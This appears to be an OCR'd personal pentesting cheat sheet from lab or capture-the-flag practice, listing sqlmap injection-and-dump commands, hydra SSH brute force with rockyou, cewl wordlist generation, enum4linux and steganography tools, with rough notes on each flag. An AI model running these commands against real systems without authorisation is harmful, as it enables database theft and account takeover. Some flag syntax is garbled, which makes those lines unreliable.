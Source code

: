 *// wordlist generation*  
cewl -w wordlist -d 2 -m 5 http:*//wordpress.com*  
-d = deeph **of** the scanning  
-m = long **of** the words  
-w = save to a file worlist

#### web explotation

*// sql injection*  
sqlmap -u http:*//10.10.197.40/administrator.php \--forms \--dump*  
  
-u = url  
\--forms = grab the forms /detect  
\--dump = retrieve data form de sqli  
  
\#### basic sqli injection  
sqlmap -u 10.10.77.169 \--forms \--dump  
  
- u = url  
- \--forms= check the forms automatically  
- \--dump= dump dthe database data entries  
  
*// extract database*  
sqlmap -u http:*//localchost.com/hey.php?artist=1 \--dbs*  
*// extract colums*  
Sqlmap -u http:*//localchost.com/hey.php?artist=1 \--D (tabla) \--T
artists \--columns*  
*// extract data of the table and the column inside of the db*  
sqlmap -u http:*//localchost.com/hey.php?artist=1 \--D (tabla) \--T
artist \--C adesc, aname, artist_id \--dump*

#### enumeration

enum4linux 10.10.60.11

#### bruteforcing

hydra -t4 -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.11  
hydra -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.118

#### stego

exiftool cats.png  
zsteg cats.png  
binwalk -d cats.png  
  
*// windows*  
snow -C -p \"magic\" readme2.txt  
-p = passowrd  
*//image steganography*  
openstego \> extract dat \>  
  
*//stegseek to crack stego password*

#### windows rpc mal configurado
